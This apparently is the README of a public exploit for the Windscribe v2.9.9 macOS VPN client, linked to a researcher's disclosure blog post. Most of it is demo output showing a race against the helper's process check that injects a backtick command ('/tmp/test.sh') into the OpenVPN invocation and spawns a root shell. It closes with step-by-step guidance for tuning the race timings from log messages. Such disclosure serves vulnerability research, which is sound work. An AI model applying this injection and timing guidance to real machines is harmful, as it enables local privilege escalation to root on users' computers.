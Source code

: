 ### About

This is the exploit for Windscribe's v2.9.9 macOS client.

Blogpost is here:
[https://gergelykalman.com/why-you-shouldnt-use-a-commercial-vpn-amateur-hour-with-windscribe.html](https://gergelykalman.com/why-you-shouldnt-use-a-commercial-vpn-amateur-hour-with-windscribe.html)


### Demo:
```
$ ./windscribe_attitude_check.py 
[+] Preparing
[+] Opening windscribe log file
[+] Launching exploit
[+] Try 0/100
[?] LOGLINE [120424 12:22:29:000] [service]	client app connected
[?] LOGLINE [120424 12:22:29:000] [service]	HelperSecurity::verifyProcessId: new PID 96804
[?] LOGLINE [120424 12:22:29:000] [service]	Invalid app/bundle name for PID 96804: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'
[?] LOGLINE [120424 12:22:29:000] [service]	client app disconnected
[+] Try 1/100
[?] LOGLINE [120424 12:22:29:000] [service]	client app connected
[?] LOGLINE [120424 12:22:29:000] [service]	HelperSecurity::verifyProcessId: new PID 96805
[?] LOGLINE [120424 12:22:29:000] [service]	Invalid app/bundle name for PID 96805: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'
[?] LOGLINE [120424 12:22:29:000] [service]	client app disconnected
[+] Try 2/100
[?] LOGLINE [120424 12:22:29:000] [service]	client app connected
[?] LOGLINE [120424 12:22:29:000] [service]	HelperSecurity::verifyProcessId: new PID 96806
[?] LOGLINE [120424 12:22:29:000] [service]	Invalid app/bundle name for PID 96806: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'
[?] LOGLINE [120424 12:22:29:000] [service]	client app disconnected
[+] Try 3/100
[?] LOGLINE [120424 12:22:30:000] [service]	client app connected
[?] LOGLINE [120424 12:22:30:000] [service]	HelperSecurity::verifyProcessId: new PID 96807
[?] LOGLINE [120424 12:22:30:000] [service]	Invalid app/bundle name for PID 96807: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'
[?] LOGLINE [120424 12:22:30:000] [service]	client app disconnected

...

[+] Try 61/100
[?] LOGLINE [120424 12:22:36:000] [service]	client app connected
[?] LOGLINE [120424 12:22:36:000] [service]	HelperSecurity::verifyProcessId: new PID 96865
[?] LOGLINE [120424 12:22:36:000] [service]	Resolved command: /Applications/Windscribe.app/Contents/Helpers/windscribeopenvpn --config /etc/windscribe/config.ovpn `/tmp/test.sh`
[+] Try 62/100
[?] LOGLINE [120424 12:22:36:000] [service]	client app disconnected
[+] PWNED :)
[+] Spawning shell

The default interactive shell is now zsh.
To update your account to use zsh, please run `chsh -s /bin/zsh`.
For more details, please visit https://support.apple.com/kb/HT208050.
bash-3.2#
```



### Instructions to debug the race timings:

The messages in `/Library/Logs/com.windscribe.helper.macos/helper_log.txt`
will tell us what's happening (in order):

- we connected
  "client app connected"
- our child was still running at the time of the pid check (good)
 "HelperSecurity::verifyProcessId: new PID 94943"
 - our child process terminated too early (PARENT_KILL_WAIT_TIME too small):
 "Failed to get app/bundle name for PID 95202"
- we crashed the helper process (our data killed the boost parser most likely)
 "Windscribe helper terminated"
- child execve() was too early (CHILD_POST_SEND_WAIT_TIME too small):
  "getsockopt(LOCAL_PEERID) failed (57)."
- child execve() was too late (CHILD_POST_SEND_WAIT_TIME too large):
  "Invalid app/bundle name for PID 94535: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'"
- we won the race:
  "Resolved command: /Applications/Windscribe.app/Contents/Helpers/windscribeopenvpn --config /etc/windscribe/config.ovpn `/tmp/test.sh`"

